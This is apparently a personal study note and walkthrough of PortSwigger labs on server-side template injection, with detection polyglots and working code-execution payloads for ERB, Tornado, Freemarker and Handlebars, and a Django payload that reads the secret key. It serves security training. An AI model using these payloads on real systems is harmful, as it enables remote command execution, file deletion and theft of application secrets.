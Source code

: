 # Server Side template injection

[Portswigger](https://portswigger.net/web-security/server-side-template-injection)

## Methodology

Can inject a series of injectable ssti strings to identify the use of ssti

```
${{<\%[\%'"}}\%\
```

Another attempt would be to inject mathematical syntax for ssti and see possible return, look for `49` or `7777777` in ther response form the below:

```
${7*7}
{{7*7}}
{{7*'7'}}
```

Additional injections to test for:

```
${*comment*}
${"z".join("ab")}
```

More payloads and thoughts on ssti:
[hacktricks ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## Labs Walkthrough

### Basic server-side template injection

Background:
```
To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- review a products more details, notice a `GET` using a `message` parameter to render "Unfortunately this product is out of stock"
- in the ERB documentation discover the syntax: `<\%= someExpression\%>` is used to evaluate an expression and render the result on the page
- use ERB template syntax to test a payload containg a mathematical operation `<\%= 7*7 \%>`
- URL encode the payload and insert it as the value of the message parameter in the URL `https://YOUR-LAB-ID.web-security-academy.net/?message=<\%25\%3d+7*7+\%25>`
- notice the operation executes and you get a `49` on the page, meaning we have ssti
- Further ERB documentation talks about the `system()` command, construct a payload to delete carlos's file:

```
<\%= system("rm /home/carlos/morale.txt") \%>
```

- URL encode this and send it as the message parameter `https://YOUR-LAB-ID.web-security-academy.net/?message=<\%25+system("rm+/home/carlos/morale.txt")+\%25>`

### Basic server-side template injection (code context)

Background:
```
To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```

- login and post a comment on one of the blog posts
- notice that on the "my account" page, you can select whether you want the site to use your full name, first name, or nickname. A POST request sets the value of the parameter `blog-post-author-display` to either user.name, user.first_name or user.nickname
- in burp send the request `POST /my-account/change-blog-post-author-display` to repeater
- in Tornado the template expressions are surrounded with double curly braces, so in repeater notice that you can escape out of the expression and inject arbitrary template syntax as follows `blog-post-author-display=user.name}}{{7*7}}`
- Reload the page containing your test comment and notice the page containing your test comment now says `PeterWiener49}}`
- Tornado does use syntax for executing Python with `\{\\% somePython \\%\}`, and pythong supports the `system()` command
- combine this to create syntax to execute the deletion of carlos's file:

```
{\% import os \%}
{{os.system('rm /home/carlos/morale.txt')
```
- in repeater inject this payload in where you placed the 7*7 earlier, make sure to url encode it ```blog-post-author-display=user.name}}{\%25+import+os+\%25}{{os.system('rm\%20/home/carlos/morale.txt')```
- reload the page containing your comment and the lab completes

### Server-side template injection using documentation

Background:
```
identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates, notice that this template engine uses the syntax `${someExpression}`
- create your own expression or change one of the others to maybe cause an error, save the template. You get an error saying it is the Freemarker template engine
- Freemarker uses the `new()` built-in which can be dangerous
- inject a payload like so: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

This lab was more about researching and discovering all of these pieces together. albinowax has an exploit for freemarker you can view [here](https://portswigger.net/research/server-side-template-injection)

### Server-side template injection in an unknown language with a documented exploit

Background:
```
identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- notice that when you try to view more details about the first product a `GET` request uses the message parameter to render "Unfortunately this product is out of stock" on the home page. 
- fuzz this `message` parameter with `${{<\%[\%'"}}\%\`, which the error shows it is using `Handlebars`
- search for a handlebars server side template injection payload, there's one by Zombiehelp54 that looks like this, with it already deleting carlos morale.txt:

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

- url encode this exploit and add it as the value of the message parameter in the url as so:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz\%7b\%7b\%23\%77\%69\%74\%68\%20\%22\%73\%22\%20\%61\%73\%20\%7c\%73\%74\%72\%69\%6e\%67\%7c\%7d\%7d\%0d\%0a\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%22\%65\%22\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%73\%70\%6c\%69\%74\%20\%61\%73\%20\%7c\%63\%6f\%6e\%73\%6c\%69\%73\%74\%7c\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%75\%73\%68\%20\%28\%6c\%6f\%6f\%6b\%75\%70\%20\%73\%74\%72\%69\%6e\%67\%2e\%73\%75\%62\%20\%22\%63\%6f\%6e\%73\%74\%72\%75\%63\%74\%6f\%72\%22\%29\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%73\%74\%72\%69\%6e\%67\%2e\%73\%70\%6c\%69\%74\%20\%61\%73\%20\%7c\%63\%6f\%64\%65\%6c\%69\%73\%74\%7c\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%75\%73\%68\%20\%22\%72\%65\%74\%75\%72\%6e\%20\%72\%65\%71\%75\%69\%72\%65\%28\%27\%63\%68\%69\%6c\%64\%5f\%70\%72\%6f\%63\%65\%73\%73\%27\%29\%2e\%65\%78\%65\%63\%28\%27\%72\%6d\%20\%2f\%68\%6f\%6d\%65\%2f\%63\%61\%72\%6c\%6f\%73\%2f\%6d\%6f\%72\%61\%6c\%65\%2e\%74\%78\%74\%27\%29\%3b\%22\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%23\%65\%61\%63\%68\%20\%63\%6f\%6e\%73\%6c\%69\%73\%74\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%28\%73\%74\%72\%69\%6e\%67\%2e\%73\%75\%62\%2e\%61\%70\%70\%6c\%79\%20\%30\%20\%63\%6f\%64\%65\%6c\%69\%73\%74\%29\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%2f\%65\%61\%63\%68\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d
```

### Server-side template injection with information disclosure via user-supplied objects

Background:
```
To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates
- change one of the template expressions to something invalid using the fuzz polyglot: `${{<\%[\%'"}}\%\` save and notice the errors hint at a Django framework being used
- Django supports the `debug` tag to help with debugging information
- remove your invalid syntax and enter the following statement `{\% debug \%}`, save and notice this contains a list of objects and properties we can access from within the template
- study the settigns object in Django documentation and notice that it contains a `SECRET_KEY` propert which has dangerous security implications if known to an attacker
- remove the `{\% debug \%}` in the template and add this: `{{settings.SECRET_KEY}}`
- submit secret key to finish the lab

